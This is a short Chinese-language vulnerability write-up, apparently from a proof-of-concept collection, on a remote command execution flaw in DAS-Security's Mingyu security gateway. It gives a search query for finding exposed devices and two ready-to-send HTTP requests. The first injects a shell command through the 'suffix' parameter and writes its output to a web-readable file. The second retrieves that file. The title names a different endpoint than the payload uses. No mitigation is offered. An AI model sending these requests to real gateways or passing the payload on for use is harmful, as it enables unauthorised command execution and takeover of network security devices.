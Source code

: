 # 安恒明御安全网关aaa_portal_auth_config_reset存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关aaa_portal_auth_wchat_submit存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/HWXRZk-Pt7bBvocS/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-137994.png)

# 四、漏洞复现
```plain
GET /webui/?g=aaa_portal_auth_wchat_submit&suffix=;echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/stc.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd.png](./img/HWXRZk-Pt7bBvocS/1703405909643-3e3d865b-260e-419a-b697-5ed23a0a0ecd-686075.png)

获取命令执行结果

```plain
GET /sslvpn/stc.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: {hostname}
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1703405938768-9fa01d85-610c-4b95-a221-8a3363171080.png](./img/HWXRZk-Pt7bBvocS/1703405938768-9fa01d85-610c-4b95-a221-8a3363171080-026969.png)



> 更新: 2024-07-17 17:22:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ggogol4vip7aq8zc>
